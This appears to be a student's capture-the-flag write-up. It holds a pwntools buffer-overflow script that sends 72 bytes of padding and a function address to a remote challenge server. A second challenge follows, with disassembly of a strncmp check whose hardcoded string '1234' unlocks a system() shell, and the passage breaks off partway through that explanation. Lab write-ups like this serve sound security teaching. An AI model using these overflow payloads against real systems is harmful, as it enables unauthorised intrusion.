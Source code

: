 ```

p = remote('plsdonthaq.me', 2002)
#p = process('./blind')
p.recvline()

# 68 is the offset of buffer address from ebp
# 4 is to account for old ebp value that was pushed on the stack
# so we overwrite the return address after padding 72 bytes
# since return address is at ebp+4
padding = 'A'*(68 + 4)
win_addr = p32(0x080484d6)
payload = padding + win_addr

p.sendline(payload)
p.interactive()
```

bestsecurity
===========================
Flag: FLAG{}
General overview of problems faced
-------------------------------------
- Finding the canary value: I instantly knew had to find the "canary" value that was used in the `strncmp` function call, but I just wasn't able to find what the actual value was. From the assembly I knew that 0x804a00c was passed into the function, but I was a bit dumb at the time and forgot that `strncmp` took in pointers to strings, so for a good hour I was trying to use `\x0c\xa0\x04\x08` in my payload which got me nowhere. When I used `ltrace` I saw that the comparison was always being made "1234" so I used that and it worked. Looking back now, I know that what I should have done at the beginning was `x/s 0x804a00c` in gdb to view the string at that address.

Script/Command used (Writeup)
------------------
Running the program reveals we get some text output, then we can enter in some data. Naturally after sending some random data we get a rejection message. So we take a look at the assembly with `objdump -d -Mintel bestsecurity`.
We quickly find that nothing really happens in `main` and all the good stuff is in a function called `check_canary` which is called from `main`. As the name of this function suggests, there will be a "canary" of sorts which we'll need to account for. This is what the canary check looks like:
```
 80491d7:       6a 04                   push   0x4
 80491d9:       68 0c a0 04 08          push   0x804a00c
 80491de:       8d 45 fb                lea    eax,[ebp-0x5]
 80491e1:       50                      push   eax
 80491e2:       e8 a9 fe ff ff          call   8049090 <strncmp@plt>
 80491e7:       83 c4 0c                add    esp,0xc
 80491ea:       85 c0                   test   eax,eax
 80491ec:       75 1c                   jne    804920a <check_canary+0x54>
 80491ee:       68 11 a0 04 08          push   0x804a011
 80491f3:       e8 68 fe ff ff          call   8049060 <puts@plt>
 80491f8:       83 c4 04                add    esp,0x4
 80491fb:       68 2f a0 04 08          push   0x804a02f
 8049200:       e8 6b fe ff ff          call   8049070 <system@plt>
 8049205:       83 c4 04                add    esp,0x4
 8049208:       eb 0d                   jmp    8049217 <check_canary+0x61>
 804920a:       68 37 a0 04 08          push   0x804a037
```
So what happens is `strncmp` is executed to check if some string at 0x804a00c is equal to a string at ebp-0x5. 0x4 (4) bytes are compared. Now if these strings are not equal the `jne` instruction gets triggered, jumping down to another instruction (which happens to push the address of the rejection message on the stack). But if these strings are equal then `puts` will output some string and then `system` is executed to open up a shell. In `gdb` we can execute `x/s 0x804a00c`, revealing that the constant string (serving as a "canary") used in `strncmp` is "1234". Running `ltrace` would also reveal that the `strncmp` function always takes in the constant "1234" as one of its values. Now let's take a look at how input is handled in the program: